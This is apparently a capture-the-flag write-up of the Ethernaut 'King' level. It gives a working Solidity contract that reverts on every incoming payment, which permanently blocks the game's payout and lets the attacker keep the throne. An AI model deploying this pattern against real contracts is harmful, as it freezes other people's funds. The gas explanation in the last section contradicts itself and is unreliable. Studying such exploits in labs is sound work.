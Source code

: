 # King

The ponzi starts with 0.001 ether. We can exploit the game by giving an equal/larger ether, but via a contract that disallows receiving ether. This way, if someone is eligible to be the new king, the transaction will fail when it tries to send us the prize!

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;
 
contract OneWayForward {  

  receive () external payable {
  revert("Im the king!");
  }

  fallback () external payable {
  revert("Im the king!");
  }
  
  function forward(address payable _to) public payable {
  (bool sent, ) = _to.call{value: msg.value}("");
  require(sent, "forwarded call failed");
  }

}
```

## Preventing Money Transfer

The contract is simple: a forward function forwards our sent money to some address. The recieving address will know the contract as `msg.sender`, however they won't be able to send money back. Preventing to recieving money can be done by **not** implementing `receive` and `fallback` functions. In my case, I wanted to be a little bit cheeky and I implement them but inside revert with "Im the king!" message when they send me money ;)

## Call vs. Transfer

Another important point: we used `_to.call{value: msg.value}("")` instead of `_to.transfer(msg.value)`. This is because `transfer` sends 2300 gas to the receiver, but that gas is enough for the code to run on their side; so we must forward all our gas to them with `call`.
